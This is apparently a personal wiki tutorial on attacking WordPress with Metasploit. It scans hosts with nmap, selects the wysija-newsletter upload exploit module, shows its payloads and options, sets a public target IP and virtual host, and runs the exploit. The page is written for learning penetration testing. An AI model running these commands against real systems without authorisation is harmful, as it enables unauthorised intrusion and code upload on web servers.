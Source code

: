 # WordPress

## Identify a Remote Host

```bash
msf > db_nmap -v -sV 192.168.111.xxx
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/575CF62D4C7E18CFD40566EA08E7D588.png)

### Scan an Entire Network

* This will save the results to the metasploit database

```bash
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

* `hosts` will list all the hosts found by `nmap`.
* `hosts -R` will add them to the list of hosts to exploit.

## Searching for a WordPress Vulnerability

```bash
msf > search name:wordpress
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/A9D412A6F8C5F3485B429E2EA41D4CB9.png)

## Use an Exploit

* This will select an exploit to use:

```bash
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

* This will show you the attacks that the exploit will take advantage of:

```bash
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/67A7D5964C96C63BA11EEA707CB4A604.png)

* This will show what software and version will be targeted:

```bash
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

## Next configure the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

* Here is where we set all the options:

```bash
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

## Run the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > exploit
```

